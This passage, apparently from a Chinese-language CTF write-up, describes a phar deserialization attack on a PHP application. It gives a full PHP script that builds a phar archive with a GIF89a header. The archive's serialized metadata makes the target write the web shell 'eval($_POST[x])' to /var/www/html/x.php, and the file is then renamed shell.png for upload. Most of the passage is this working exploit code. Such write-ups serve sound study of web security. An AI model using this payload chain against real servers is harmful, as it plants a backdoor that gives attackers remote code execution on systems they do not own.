 ```php
}else{
	$ret['msg']='请登录后使用此功能';
	die(json_encode($ret));
}
```

构造 POP 链时用到的 反序列化终点还是之前题目中的终点，也就是写文件的那个

```php
<?php 
class dbLog{
	public $sql;
	public $content="<?PHP eval(\$_POST[x]);?>";
	public $log="/var/www/html/x.php";
}
$c=new dbLog();
$phar = new Phar("webshell.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?PHP __HALT_COMPILER(); ?>");//设置stub，增加gif文件头
$phar->setMetadata($c); //将自定义Meta-data存入manifest
$phar->addFromString("a", "a"); //添加要压缩的文件
$phar->stopBuffering();
?>
```

得到 webshell.phar 文件，改名为 shell.png 上传

<img src=".\图片\Snipaste_2023-08-14_11-24-52.png" alt="Snipaste_2023-08-14_11-24-52" style="zoom:50%;" />
